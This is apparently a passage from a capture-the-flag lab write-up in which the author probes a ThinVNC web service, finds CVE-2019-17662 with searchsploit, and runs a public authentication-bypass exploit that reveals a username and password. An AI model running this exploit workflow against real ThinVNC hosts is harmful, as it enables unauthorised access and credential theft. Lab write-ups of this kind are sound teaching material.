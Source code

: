 ok let's check the website

```bash
──╼ $curl 10.10.246.176:8080 -v

- Trying 10.10.246.176:8080...
- Connected to 10.10.246.176 (10.10.246.176) port 8080 (#0)
  > GET / HTTP/1.1
  > Host: 10.10.246.176:8080
  > User-Agent: curl/7.74.0
  > Accept: _/_
- Mark bundle as not supporting multiuse
< HTTP/1.1 401 Access Denied
< Content-Type: text/html
< Content-Length: 144
< Connection: Keep-Alive
< WWW-Authenticate: Digest realm="ThinVNC", qop="auth", nonce="Iqp6PTu85UCo2UwCO7zlQA==", opaque="CgvGrB8X4kGN68i8eMeu5MpmBxMHKgkJ4s"
<
<HTML><HEAD><TITLE>401 Access Denied</TITLE></HEAD><BODY><H1>401 Access Denied</H1>The requested URL  requires authorization.<P></BODY></HTML>
- Connection #0 to host 10.10.246.176 left intact
```

thinVnC? what is that? I know vnc but why is this one thin?

Google is my homie

```bash
└──╼ $searchsploit thinvnc

---

Exploit Title | Path

---

ThinVNC 1.0b1 - Authentication Bypass | windows/remote/47519.py

---

Shellcodes: No Results
```

Thanks MuirlandOracle for CVE-2019-17662.py

I copied that as `thinvnc_exploit.py`

```bash

└──╼ $python thinvnc_exploit.py 10.10.246.176 8080

---

|\_ _| |\_\_ (_)\_ \_\ \ / / \ | |/ **_|
| | | '_ \| | '_ \ \ / /| \| | |
| | | | | | | | | \ V / | |\ | |_**
|_| |_| |_|_|_| |_|\_/ |\_| \_|\_\_\_\_|

@MuirlandOracle

[+] Credentials Found!
Username: Atlas
Password: H0ldUpTheHe@vens
```
